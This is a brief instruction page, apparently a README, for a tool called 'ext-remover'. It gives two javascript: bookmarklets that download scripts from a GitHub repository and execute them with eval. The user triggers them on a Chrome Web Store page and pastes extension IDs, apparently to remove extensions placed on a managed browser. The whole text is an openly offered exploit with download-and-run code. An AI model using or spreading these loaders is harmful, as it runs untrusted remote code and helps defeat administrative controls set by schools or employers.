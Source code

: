 step 1 save this as bookmark 
```js
javascript:fetch("https://raw.githubusercontent.com/3kh0/ext-remover/main/exploit.js").then(data=>{data.text().then(text=>{eval(text)})});
```


step 2 open this `https://chrome.google.com/webstorex`
click on first bookmark
make this book mark 
```js
javascript:fetch("https://raw.githubusercontent.com/3kh0/ext-remover/main/bookmark.js").then(data=>{data.text().then(text=>{eval(text)})});
```
copy and paste this into there `iheobagjkfklnlikgihanlhcddjoihkg, cgbbbjmgdpnifijconhamggjehlamcif`
